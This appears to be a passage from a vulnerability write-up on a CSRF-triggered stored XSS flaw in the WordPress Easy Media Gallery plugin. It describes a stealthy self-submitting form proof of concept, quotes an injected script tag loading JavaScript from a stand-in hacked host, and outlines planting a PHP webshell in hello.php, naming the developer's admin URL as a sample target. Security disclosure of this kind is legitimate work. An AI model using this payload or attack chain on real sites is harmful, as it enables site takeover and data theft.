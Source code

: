 But the authors of ghozy lab didn't apply neither inbound nor outbound
input handling which lead to potentially malicious code in the database
that is eventually printed to the administration screen by causing a
stored XSS (The output and admin menu generation code is also in
wp-content/plugins/easy-media-gallery/includes/emg-settings.php between
line 275 and 520.

Again in short and for conclusion: Because there is no way to guarantee
that the action originated from a intentional form submittal by the
administrator (Because there are no security checks with anti
Cross-Site-Request-Forgery barriers such as check_admin_referer() or
check_ajax_referer()), any attacker can set up a page that
incorporates the following form hidden into the site. Note that the form
submits itself in a stealth way, such that a visitor isnt' able to
observer anything suspicious.




        
            XSS POC
            
            
        
        
            
                

                
                    
                    
                

                
                    document.getElementById('xss-test').submit();
                
            
        

Of course the appropriate values have to be set to match the victims
server credentials. So if we wanted to target the plugin developer, we
would just use the URL in the POST form

    http://ghozylab.com/wp-admin/index.php?page=settings&post_type=easymediagallery

and we would host the javascript payload on a hacked server. But wait,
the above POC has the payload

    pattern-01.png" name="easymedia_style_pattern" id="easymedia_style_pattern" /><script src=http://somehackedserver.com/plugin-loader.js>//Nothin here</script>

Now that we can execute arbitrary javascript code in the context of the
admin, what can we possibly do? Well, we can gain remote code execution.
That's the worst outcome of any possible web hack attack, because it
allows us to gain a foothold on the server. Possible scenarios from
there: Steal the databases (money), try to gain root privileges on the
server in order to completely own it. But this is usually kinda hard.

Anyways, the javascript that is loaded by the stored XSS modifies the
standard plugin hello.php (hello dolly plugin, it's installed by
default) and adds a PHP webshell to it.

You want to see the code how I managed to to implement it?

It's rather straightforward and there are probably more elegant ways,
such as using jQuery. Keep in mind that the URL is set to my local
pentest server, except ALERT_URL, this is just made up. In the real
world, you'd substitute the urls to a hacked server that you own and
from which you start and execute your attacks.
